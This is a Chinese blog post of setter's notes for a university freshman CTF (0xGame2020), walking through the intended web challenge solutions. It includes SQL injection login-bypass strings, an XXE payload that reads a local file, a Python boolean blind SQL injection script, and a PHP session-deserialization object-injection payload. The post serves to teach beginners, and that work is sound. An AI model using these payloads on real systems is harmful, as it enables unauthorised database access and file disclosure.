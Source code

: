 ```yaml
---
title: 0xGame2020出题笔记
date: 2020-10-30
image: https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120181429.png
description: 南京邮电大学新生赛
categories: 
- ctf_writeup
tags:
---
```

学校有史以来第一次这么简单的新生赛，我承担平台的运维和web出题。

第一次出这么多题，虽然题目难度都不大，不过折腾和搞平台环境还是花了不少精力，目的在于三点：

1. 希望CTF能在学校更普及
2. 希望能找到有兴趣和有毅力的学弟学妹
3. 题目很多都是来自入门文档的知识点，看过的一定很容易做出来，希望新同学能认真看资料

------

题目开源地址：https://github.com/Anthem-whisper/0xGame2020

所有题目环境：https://shimo.im/docs/8hkRHdRDdWyKycyK

因为是自费运营，还请师傅们不要恶意破坏环境

### 第一周

题目都是最简单的入门题目，也不涉及web漏洞，没什么好说的。主要考察同学们配置环境的动手能力。

### 第二周

出了一道很简单的SQL注入，

核心是要猜测登录时所拼接的sql语句：

```
$sql = "select username from user where username='". $username ."' and password='". $password ."';";
```

没有任何waf，在用户名处输入`admin' or 1=1#`搞定，由于#符号把后面的语句注视掉了，实际上sql语句实际上变成了：

```
select username from user where username='admin' or 1=1
```

1=1是永远成立的，所以必然能返回大于一行的数据，也就是 mysql_num_rows($res)>0，就可以获得flag

 

### 第三周

一道XXE，一道SQL布尔盲注

#### inject_me

XXE是去年NCTF2019的原题，我在web入门doc里面写过，并且题目地址和源码我都给了。

在给了hint的情况下这么少的解还是出乎我的意料

由HTTP响应里面返回的标签以及Content-Type是xml格式可以很轻易的百度到XXE这种攻击手段

XXE学习：https://xz.aliyun.com/t/3357

告诉了/flag，那么随手一个payload就出来了：

```
<?xml version="1.0"?>
<!DOCTYPE dy [
<!ENTITY dy SYSTEM "file:///flag">
]>
<user><username>&dy;</username><password>123</password></user>
```

 

#### close_eyes

布尔盲注很多同学用手打，本来目的是想叫你们去学python的，结果硬是手打出来了，下次出个128位的flag（bushi

本来想稍微加点waf的，后来不想出难了就没加，开SQLmap的莫得灵魂。

布尔盲注学习：https://xz.aliyun.com/t/7169#toc-2

这篇文章不仅仅讲了盲注也讲了其他的一些手法，值得钻研一番

思路就是语句为假的时候（比如我用户名输入1'||1=0#或者乱输一个用户名密码），页面回显“数据库里没你这号人,别想骗劳资.jpg”

为真的时候（比如我输入1'||1=1#）页面回显“数据库有你这号人，那又怎么着？”，根据回显情况的不同，我们就可以判断我们的condition究竟是真还是假。

```
1'||(condition)#
```

不断地改变condition就可以查到我们想要的数据；

举个例子：

```
1'||length(database())>1#
```

判断数据库名字的长度是不是大于1，页面返回“数据库有你这号人，那又怎么着？”，那么我们就可以确定数据库名字长度大于1。

类似的：

```
1'||ascii(substr(database(),1,1))=117#
```

可判断数据库第一个字母是ASCII码为117的字母，也就是‘u'。

也可以使用二分法进行盲注。

exp：

```
#python3
#wh1sper
import requests
host = 'http://59.110.157.4:30052/login.php'
def mid(bot, top):
    return (int)(0.5 * (top + bot))
def sqli():
    name = ''
    for j in range(1, 250):
        top = 126
        bot = 32
        while 1:
            babyselect = 'database()'#user
            #babyselect = '(select table_name from information_schema.tables where table_schema=database())'#user
            #babyselect = "(select group_concat(column_name) from information_schema.columns " \
            #            "where table_schema=database() and table_name='user')"#id,username,password
            #babyselect = "(select group_concat(password) from user)"#0xGame{blind_sqli_1s_not_hard}
            data = {
                "password": "1",
                "username": "1'||ascii(substr({},{},1))>{}#".format(babyselect, j, mid(bot, top))
            }
            r = requests.post(url=host, data=data)
            #print(r.text)
            print(data)
            if '数据库有你这号人' in r.text:#子查询为真
                if top - 1 == bot:
                    name += chr(top)
                    print(name)
                    break
                bot = mid(bot, top)
            else:
                if top - 1 == bot:
                    name += chr(bot)
                    print(name)
                    break
                top = mid(bot, top)
if __name__ == '__main__':
    sqli()
```

 

### 第四周

#### broken_motto

session反序列化，也是文档里面出现过的

\>>[学习链接](https://www.mi1k7ea.com/2019/04/21/PHP-session反序列化漏洞/)，建议自己本地动手搭一个环境

在profile.php里面里面有一行注释：

```
//ini_set('session.serialize_handler','php_serialize');
```

这行代码使用的Session序列化选择器是php_serialize，注释之后默认使用的是php

两种选择器的不同的处理方式导致了session反序列化的漏洞的产生，存session的时候，存入php_serialize经过serialize()函数序列处理的数组

读取的时候php以键名 ＋ 竖线 ＋ 经过 serialize() 函数序列化的数据处理如果你注册的时候加一个|，他会把`|`前面的忽略掉，只反序列化后面的，就可以造成对象注入。

exp：

```
<?php
 
class info{
    public $admin;
    public $username;
    public $motto;
 
}
 
$pop = new info();
$pop->admin = 1;
echo serialize($pop);
```

payload：

```
|O:4:"info":3:{s:5:"admin";i:1;s:8:"username";N;s:5:"motto";N;}
```

 

这次比赛总的来说呢，还是很成功的，相信同学们都找到了自己心里一直想追求的方向，当然，比赛中也不乏表现突出的选手，希望你们能坚持下去，去追求更深的技术，更好的未来